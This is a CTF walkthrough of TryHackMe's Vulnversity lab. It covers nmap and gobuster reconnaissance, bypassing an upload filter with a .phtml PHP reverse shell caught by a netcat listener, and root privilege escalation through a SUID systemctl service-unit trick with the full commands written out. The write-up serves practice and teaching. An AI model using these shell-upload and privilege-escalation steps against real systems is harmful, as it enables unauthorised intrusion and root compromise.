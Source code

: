 ```yaml
---
title: "Vulnversity - TryHackMe"
author: krishna
description: "Walkthrough of Vulnversity from TryHackMe"
date: 2020-10-16 22:22:22 +0530
categories: [writeups, tryhackme]
tags: [privesc, pentest, ctf]
---
```


**[Vulnversity from TryHackMe](https://tryhackme.com/room/vulnversity)**

## Task 1 - Deploy the machine

deployment B), lezz go

## Task 2 - Reconnaissance

1. Scan this box: `nmap -sV <machines ip>`

	![nmap scan results](/assets/img/tryhackme/vulnversity/vuln1.png)

2. Scan the box, how many ports are open?

	`6`

3. What version of the squid proxy is running on the machine?

	`3.5.12`

4. How many ports will nmap scan if the flag -p-400 was used?

	`400`

5. Using the nmap flag -n what will it not resolve?

	`DNS`

6. What is the most likely operating system this machine is running?

	`Ubuntu`

7. What port is the web server running on?

	`3333`

8. Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

## Task 3 - Locating directories using GoBuster

1. Now lets run GoBuster with a wordlist: `gobuster dir -u http://<ip>:3333 -w <word list location>`

	![gobuster help](/assets/img/tryhackme/vulnversity/vuln2.png)

2. What is the directory that has an upload form page?

	![go gobuster](/assets/img/tryhackme/vulnversity/vuln3.png)
	
	`/internal/`

	![/internal/index.php](/assets/img/tryhackme/vulnversity/vuln4.png)

## Task 4 - Compromise the webserver

1. Try upload a few file types to the server, what common extension seems to be blocked?

	on uploading a `.php` file,
	
	![hey not allowed](/assets/img/tryhackme/vulnversity/vuln5.png)

2. To identify which extensions are not blocked, we're going to fuzz the upload form. To do this, we're doing to use BurpSuite. If you are unsure to what BurpSuite is, or how to set it up please complete our [BurpSuite room](https://tryhackme.com/room/rpburpsuite) first.

	*sucks that the burpsuite room is only for subscribers*

3. Make a wordlist of different php extensions. Use **burpsuite** to send the upload POST request to `intruder` and add *that dollar-like sign* at appropriate places. Then start the attack.

	```terminal
	$ cat phpext_list.txt
	.php
	.php3
	.php4
	.php5
	.phtml
	```

	for some reason, the **intruder**'s sniper attack did not work for me i.e. gave the same response for all extensions. So, upon trying them manually, we get success for **`.phtml`**

4. A reverse php shell is given [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and change the value of the IP to your IP from the `tun0` interface. Change the extension to `.phtml`. Listen on `1234` through `netcat` with the command `nc -vlnp 1234`. Then upload the shell file, navigate to the file by going to the file URL, `http://$MACHINE_IP:3333/internal/uploads/php_rev_shell.phtml` to make the machine execute your file.

	when we go to the URL,

	![boom access](/assets/img/tryhackme/vulnversity/vuln6.png)

	now, we have spawned a shell

5. What is the name of the user who manages the webserver?

	the home folders for users are created at `/home/`. `ls /home/` shows us that a user, **`bill`** exists.

6. What is the user flag?

	![yea flag B)](/assets/img/tryhackme/vulnversity/vuln7.png)

## Task 5 - Privilege Escalation 

1. intro to SUID. find all binaries with SUID.

	to find all such binaries, we can run `find / -perm -4000 2>/dev/null`

	* `find` to search

	* `/` to start from the topmost directory

	* `-perm` to specify permission value

	* `-4000` to specify SUID permission value of exactly 4000

	* `2 > /dev/null` to hide all the errors by redirecting stderr to null stream

	![sweet suid](/assets/img/tryhackme/vulnversity/vuln8.png)

	`/bin/systemctl` is of importance here as you will see in the next question

2. Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer? Become root and get the last flag (/root/root.txt)

	[gtfobins](https://gtfobins.github.io/) is a curated list of unix binaries that can be used for privilege escalation

	[this](https://gtfobins.github.io/gtfobins/systemctl/) gtfobins article on **systemctl** tells us how to exploit it to run any command as superuser

	so taking inspiration from that, we can do this

	```terminal
	$ RFLAG=$(mktemp).service
	$ echo '[Service]
	  Type=oneshot
	  ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/theFLAG"
	  [Install]
	  WantedBy=multi-user.target' > $RFLAG
	$ /bin/systemctl link $RFLAG
	$ /bin/systemctl enable --now $RFLAG
	```

	then to view the flag, `cat /tmp/theFLAG`

	![yea root flag B)](/assets/img/tryhackme/vulnversity/vuln9.png)
